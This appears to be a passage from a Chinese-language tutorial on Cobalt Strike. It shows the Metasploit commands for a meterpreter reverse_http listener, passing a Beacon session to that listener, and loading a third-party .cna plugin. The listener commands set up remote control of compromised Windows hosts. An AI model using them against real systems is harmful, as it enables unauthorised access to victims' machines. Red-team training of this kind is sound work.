 另一种方式是 Cobalt Strike Server 服务器上安装 MSF 直接 Spawn。

MSF 开启监听。

```plaintext
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```

Cobalt Strike Foreign HTTP(S) 监听器则设置服务器公网地址和 MSF 中监听的 Port。将 Beacon Spawn 到此监听器即可。

### 插件

可以对 Cobalt Strike 利用功能进行扩展。

这里使用 [https://github.com/pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike) 做实例。

在菜单 Cobalt Strike -> Script Manager 打开 Scripts 标签 Load .cna 文件即可加载。

![插件加载成功.png](assets/1708583825-510d919eae528990ae68cbe428a93f26.png)

如果插件加载完包含中文乱码，可以在启动时加上 -Dfile.encoding=utf-8。

### 快捷键

控制台
